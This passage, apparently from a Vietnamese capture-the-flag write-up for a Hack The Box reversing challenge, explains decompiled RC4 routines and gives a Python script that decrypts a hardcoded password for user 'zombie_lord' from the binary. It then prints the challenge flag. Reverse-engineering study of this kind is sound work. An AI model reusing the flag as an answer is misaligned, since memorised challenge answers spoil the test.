Hàm `key_rounds_init()` nhận vào `param_1` là key và `param_2` là buffer 256 byte. Đầu tiên, nó khởi tạo `param_2` thành dãy giá trị từ `0` đến `255`. Sau đó, hàm duyệt đủ 256 vòng, mỗi vòng tính một chỉ số mới dựa trên byte hiện tại, key và biến trạng thái `iVar5`, rồi hoán đổi hai phần tử trong `param_2`.

```c
undefined4 perform_rounds(int param_1,char *param_2,int param_3)

{
  byte bVar1;
  size_t sVar2;
  byte *pbVar3;
  size_t sVar4;
  uint uVar5;
  uint uVar6;

  sVar2 = strlen(param_2);
  uVar6 = 0;
  uVar5 = 0;
  for (sVar4 = 0; sVar4 != sVar2; sVar4 = sVar4 + 1) {
    uVar5 = uVar5 + 1 & 0xff;
    pbVar3 = (byte *)(param_1 + uVar5);
    bVar1 = *pbVar3;
    uVar6 = bVar1 + uVar6 & 0xff;
    *pbVar3 = *(byte *)(param_1 + uVar6);
    *(byte *)(param_1 + uVar6) = bVar1;
    *(byte *)(param_3 + sVar4) =
         *(byte *)(param_1 + ((uint)bVar1 + (uint)*pbVar3 & 0xff)) ^ param_2[sVar4];
  }
  return 0;
}
```

Hàm `perform_rounds()` nhận vào `param_1` là S-box đã được khởi tạo từ `key_rounds_init()`, `param_2` là dữ liệu đầu vào cần giải mã, và `param_3` là buffer output. Hàm này duyệt từng byte của `param_2`, cập nhật hai biến trạng thái, hoán đổi các phần tử trong S-box rồi sinh ra một byte keystream. Byte keystream này sau đó được XOR với byte tương ứng của `param_2` và ghi kết quả vào `param_3`.

Sử dụng script với logic của 2 hàm này để lấy chuỗi `param2` được dùng làm password cho user `zombie_lord`:

```python
from pathlib import Path
import sys

BASE = 0x400000
KEY = b"d2c0ba035fe58753c648066d76fa793bea92ef29"

def read_cstr(data, va, max_len):
    off = va - BASE
    return data[off:off + max_len].split(b"\x00")[0]

def key_rounds_init(key):
    s = list(range(256))
    j = 0

    for i in range(256):
        j = (j + s[i] + key[i % len(key)]) & 0xff
        s[i], s[j] = s[j], s[i]

    return s

def perform_rounds(s, inp):
    i = 0
    j = 0
    out = bytearray()

    for b in inp:
        i = (i + 1) & 0xff
        j = (j + s[i]) & 0xff

        s[i], s[j] = s[j], s[i]

        k = s[(s[i] + s[j]) & 0xff]
        out.append(b ^ k)

    return bytes(out)

def main():
    data = Path(sys.argv[1]).read_bytes()

    ciphertext = read_cstr(data, 0x400d50, 0x1b)

    sbox = key_rounds_init(KEY)
    param2 = perform_rounds(sbox, ciphertext)

    print(param2.decode())

if __name__ == "__main__":
    main()
```

Thu được phần sau của flag:



---

## 5. Flag

```text
HTB{Z0mb13s_h4v3_inf3ct3d_0ur_c0mmun1c4t10ns!!}
```

---

## 6. Flow


